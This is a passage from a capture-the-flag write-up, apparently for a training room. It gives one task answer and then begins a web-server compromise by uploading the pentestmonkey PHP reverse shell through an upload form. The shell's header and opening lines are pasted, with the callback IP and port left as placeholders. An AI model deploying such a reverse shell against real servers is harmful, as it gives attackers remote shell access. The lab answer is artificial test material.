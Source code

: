 - **Ans: `/internal/`**


## Task 4 : Compromise the web server

After seeing the upload form, the first thing that comes to my mind is uploading an webshell or reverse shell to compromise the server. I use [php reverse shell from Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell).

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
```